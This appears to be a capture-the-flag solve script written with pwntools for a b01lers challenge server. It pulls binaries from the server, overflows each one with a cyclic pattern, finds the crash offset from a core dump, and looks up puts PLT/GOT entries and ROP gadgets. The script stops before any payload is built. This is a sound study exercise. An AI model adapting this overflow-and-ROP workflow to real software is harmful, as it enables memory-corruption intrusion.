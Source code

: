 ```py
host = args.HOST or 'chal.b01lers.com'
port = int(args.PORT or 4001)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    return io

def start(argv=[], *a, **kw):
    return remote(argv, *a, **kw)

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

problem = 0
io = start()
io.recvline()
io.recvline()
io.recvline()
io.recvline()

while problem < 9:
    io.recvuntil("b")
    raw = io.recvuntil(": \n")
    raw = raw[1:raw.rfind(b"'")]
    b = codecs.escape_decode(raw)[0]
    f = open('bin', 'wb')
    f.write(b)
    f.close()

    exe = context.binary = ELF('bin')

    p = process('./bin')

    base = 0x400000

    main = exe.symbols['main']
    puts_plt = exe.plt['puts']
    puts_got = exe.got['puts']
    p.success("main address: {}".format(hex(main)))
    p.success("puts_plt address: {}".format(hex(puts_plt)))
    p.success("puts_got address: {}".format(hex(puts_got)))

    p.recvuntil(": \n")
    p.sendline(cyclic(0x80, n=8))
    p.recvall()

    core = p.corefile

    fault = cyclic_find(core.fault_addr, n=8)

    rop = ROP(exe)
    pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
    ret = rop.find_gadget(['ret'])[0]

```